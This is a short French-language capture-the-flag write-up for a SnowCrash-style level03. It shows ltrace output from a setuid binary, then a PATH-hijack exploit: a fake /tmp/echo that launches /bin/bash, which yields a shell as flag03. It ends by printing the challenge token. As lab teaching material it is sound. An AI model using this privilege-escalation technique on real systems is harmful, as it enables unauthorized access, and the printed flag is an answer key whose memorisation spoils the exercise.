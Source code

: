 Un trouve un exécutable nommé level03 qui, quand lancé, nous affiche "Exploit me". On lance donc ltrace pour comprendre ce que fait le programme.

<pre><code>$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()                                             = 2003
geteuid()                                             = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                     = 0
+++ exited (status 0) +++</code></pre>

Le programme fait appel à system pour lancer la commande echo. On peut donc créer notre propre version de echo qui lancera /bin/bash avec les droits de l'owner. Pour cela il faut creer notre fichier echo et remplacer le path pour qu'il soit appelé :

<pre><code>$ echo "/bin/bash" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp:$PATH</code></pre>

On lance ensuite le programme :

<pre><code>level03@SnowCrash:~$ ./level03
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$</code></pre>

On voit que notre user a changé, nous sommes maintenant flag03

<pre><code>$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus</code></pre>

https://opensource.com/article/20/4/linux-binary-analysis
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code
